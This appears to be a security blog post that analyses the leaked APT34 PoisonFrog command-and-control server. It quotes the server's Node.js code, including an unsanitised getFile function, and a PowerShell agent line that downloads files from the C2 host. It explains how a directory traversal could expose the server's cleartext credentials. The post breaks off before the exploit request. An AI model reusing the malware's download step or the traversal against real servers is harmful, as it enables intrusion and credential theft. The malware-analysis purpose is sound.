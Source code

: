 ```yaml
---
layout: post
title:  "A journey on APT34 PoisonFrog C2 Server"
date:   2019-05-31
categories: security apt34 malware poisonfrog vulnerability
---
```


## Introduction

In the recent years APTs have been the center of infosec. Mainly because of the public coverage by the media, glorifying by security companies and many more things. 
In this blog post I will analyse the C2 Server used by Oilrig/APT34 and how bad coding practice can lead to vulnerabilities that can allow the takeover of the C2 server.


Every time there is a leak that affects some hacking group it always sparks my interest. I always study the source code and the features these tools have in order to learn new techniques that may come in handy during our Red Team operations, so I started digging in the PoisonFrog C2 framework.


I started by downloading the tools on Github : https://github.com/blackorbird/APT_REPORT/tree/master/APT34


The PoisonFrog framework is formed by two components, but our focus will be the C2 server.

## PoisonFrog C2 Server

The C2 Server is built on node.js and the coding pattern that are used shows that whoever programmed the C2 side of the framework wasn't very experienced with programming. Unfortunately the source code of the C2 server is missing the most important part, the script bringing everything together, but by looking at different components of the framework we get a clear description of how everything is "glued" together.


The "serverside" folder of the C2 framework contains the following files :


* installing - This folder contains bash and bat scripts for the installation of the dependencies.
* routes - This folder contains a javascript file that contains most of the source code.
* views - The html templates.
* 0000000000.bat/9999999999.bat - bat files that gathers information about the computer is executed on.
* config.json - The C2 server configuration.


The most interesting file was index.js which was responsible for exporting most of the functions used by the C2 server.
First thing that I investigated was the login functionality. 
It first checks if the a cookie with the username is set and if not it will try to compare the credentials provided on the request. 


This authentication mechanism is clearly poor and there are a lot of bad practices but none of them allows you to bypass the authentication.

```js
exports.login = function (req, res) { // .......... login checking function ............
    var Cookies = require('cookies');
    var cookies = new Cookies(req, res);
    var cookie = cookies.get(config.user);
    if (cookie === undefined) {
        //console.log("cookie not exist");
        var username = req.body.username;
        var password = req.body.password;
        //console.log(username+"   "+password);
        if (username == config.user && password == config.password) {
            // set cookie
            cookies.set(config.user, config.password, { maxAge: new Date(Date.now() + 3600000), expires: new Date(Date.now() + 3600000), httpOnly: true })
            //console.log('cookie created successfully');
            res.redirect("/in/http");
            return;
        } else {
            res.redirect(config.guid);
            return;
        }
    } else {
        // yes, cookie was already present 
        //console.log('cookie exists', cookie);
        res.redirect("/in/http");
    }
}
```

Apart from  poor coding practices followed, the following part of the code could allow the compromise of the C2 server.

```js
exports.getFile = function (req, res) {
    var fileName = req.params.input;
    var fs = require('fs');
    var fileAddress = commonDir + "files/" + fileName;
    fs.createReadStream(fileAddress).pipe(res);
};
```

The exported function *getFile* initializes the fileName variable from the request that is sent to the C2 server. Since no sanitization is done on the input, an attacker can traverse directories and access sensitive files. Unfortunately, we do not have access to the entire source code but based on the code we have we can confirm that the vulnerability exists.


On the exported function agent  the following lines of code were interesting:

```js
fs.createReadStream("./0000000000.bat").pipe(fs.createWriteStream(commonDir + "/files/386be98ce7c7955f92dc060779ed7613"));
fs.writeFile(agentDir + "/wait/0000000000", "0000000000<>C:\\Users\\Public\\Public_Data\\files\\0000000000.bat<>0000000000.bat<>386be98ce7c7955f92dc060779ed7613<>not", function (err) { if (err) { console.log(err); } });
```

We can see that the bat file is written to the *commonDir/files/386be98ce7c7955f92dc060779ed7613*. 
Additionally the command that is sent to the agent is constructed and written to the agent directory. 
This demonstrates the consistency of the file directories between the getFile and agents functions.



The other missing part of the puzzle is the URL endpoint this function was called on and since some of the server code was missing my focus turned in analyzing the powershell Agent.


In order to understand the process better let's follow the communication between the agent and the C2 step by step.

1. Agents connects to the C2 Server.
2. C2 Server builds the command.
```
0000000000<>C:\\Users\\Public\\Public_Data\\files\\0000000000.bat<>0000000000.bat<>386be98ce7c7955f92dc060779ed7613<>not
```
3. The Agent receives the command from the C2, and creates an array out of it.
```
if ({DownloadedCommand}) {
        {AgentCommandArray} = {DownloadedCommand}.split("<>") | where {$_}
```
4. After performing some checks on the array, it used powershell webclient in order to download the file named as the third(fourth) argument of the array.
```
{WebClientGlbVariable}.DownloadFile("http://c2server/fil/"+{AgentCommandArray}[3], $EEA+{AgentCommandArray}[2]);
```
5. The full URL endpoint to download the file would be:

```http://c2server/fil/386be98ce7c7955f92dc060779ed7613```

6. From the above code and information we can suppose that the implementation of the missing code would be something like this :
```
const express = require('express')
const app = express()
[SNIP]
app.get('/fil/:input',getFile);
[SNIP]
```
Now back at the vulnerable code we can exploit it as any other directory traversal vulnerability. 


We can read the config.json file which contains the clear text credentials of the C2, giving us control over the C2 Server. 
An example service was started that implemented the same function as the C2 server and sending the following request will disclose the clear text credentials.